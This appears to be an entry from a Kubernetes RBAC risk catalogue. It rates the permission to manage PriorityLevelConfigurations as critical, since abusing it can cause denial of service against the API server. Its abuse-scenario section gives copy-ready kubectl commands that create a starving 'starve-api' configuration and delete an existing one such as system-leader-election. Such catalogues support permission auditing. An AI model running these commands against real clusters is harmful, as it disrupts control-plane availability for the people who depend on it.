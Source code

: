 ```yaml
---
id: 1099
title: "Manage PriorityLevelConfigurations (API Server DoS/Manipulation)"
description: "Allows managing PriorityLevelConfiguration objects cluster-wide. These are part of API Priority and Fairness, defining concurrency limits and queueing for API requests. Misconfiguration can lead to denial of service against the API server by starving critical requests or by setting unfair limits, impacting cluster stability."
category: Denial of Service
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                 |
| ------------- | --------------------------------------------------------------------------------------------------------------------- |
| ID            | 1099                                                                                                                  |
| Name          | Manage PriorityLevelConfigurations (API Server DoS/Manipulation)                                                      |
| Risk Category | Denial of Service                                                                                                     |
| Risk Level    | {{< risk Critical >}}                                                                                                 |
| Role Type     | ClusterRole                                                                                                           |
| API Groups    | flowcontrol.apiserver.k8s.io                                                                                          |
| Resources     | prioritylevelconfigurations                                                                                           |
| Verbs         | create, update, patch, delete                                                                                         |
| Tags          | {{< tag "APIServerDoS" >}} {{< tag "ControlPlaneDisruption" >}} {{< tag "DenialOfService" >}} {{< tag "Tampering" >}} |

## Description

Allows managing PriorityLevelConfiguration objects cluster-wide. These are part of API Priority and Fairness, defining concurrency limits and queueing for API requests. Misconfiguration can lead to denial of service against the API server by starving critical requests or by setting unfair limits, impacting cluster stability.

## Abuse Scenarios

1. Create a new PriorityLevelConfiguration with extremely low concurrency limits (DoS).

```bash {copy=true}
kubectl create -f - <<EOF
apiVersion: flowcontrol.apiserver.k8s.io/v1beta2
kind: PriorityLevelConfiguration
metadata:
  name: starve-api
spec:
  type: Limited
  limited:
    assuredConcurrencyShares: 1
    limitResponse:
      type: Reject
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete an existing PriorityLevelConfiguration, disrupting API server stability.

```bash {copy=true}
kubectl delete prioritylevelconfiguration <prioritylevelconfiguration-name>
# Example: kubectl delete prioritylevelconfiguration system-leader-election

```
